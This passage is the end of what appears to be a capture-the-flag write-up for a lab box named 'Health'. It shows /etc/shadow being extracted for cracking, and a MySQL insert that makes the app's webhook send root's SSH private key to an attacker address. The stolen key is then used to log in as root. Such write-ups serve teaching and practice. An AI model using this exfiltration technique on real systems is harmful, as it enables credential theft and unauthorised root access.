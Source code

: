 Next, I extracted the `/etc/shadow` file and started cracking the password. 

While hashcat was running, I checked to see if root had an ssh key. 

```sql
mysql> Insert Into tasks Values (1,'10.10.14.6:8000', 0, '/root/.ssh/id_rsa', '* * * * *', NOW(), NOW());
Query OK, 1 row affected (0.00 sec)
```

They did. 

```json
{
  "webhookUrl": "10.10.14.6:8000",
  "monitoredUrl": "/root/.ssh/id_rsa",
  "health": "up",
  "body": "-----BEGIN RSA PRIVATE KEY-----{KEY}-----END RSA PRIVATE KEY-----"
}
```

I used the key to connect as root and read the flag.

```bash
$ chmod 600 root_id_rsa 

$ ssh -i root_id_rsa root@target   
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-191-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jan  4 11:31:32 UTC 2023

  System load:  0.0               Processes:           184
  Usage of /:   66.4% of 3.84GB   Users logged in:     1
  Memory usage: 15%               IP address for eth0: 10.10.11.176
  Swap usage:   0%


0 updates can be applied immediately.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


root@health:~# cat root.txt 
REDACTED
```

## Mitigations

There were a few issues with that box that could be fixed without too much work. 
